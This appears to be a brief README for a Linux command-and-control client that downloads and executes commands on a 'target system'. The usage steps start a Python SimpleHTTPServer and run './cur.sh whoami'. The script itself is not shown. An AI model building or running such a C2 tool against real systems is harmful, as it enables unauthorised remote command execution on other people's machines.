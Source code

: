 # A Linux C2 client which will download and execute commands in target system

### Start the web server in one pane
```
python -m SimpleHTTPServer 1234
```
* Now execute the script in another pane *

```
./cur.sh whoami
```
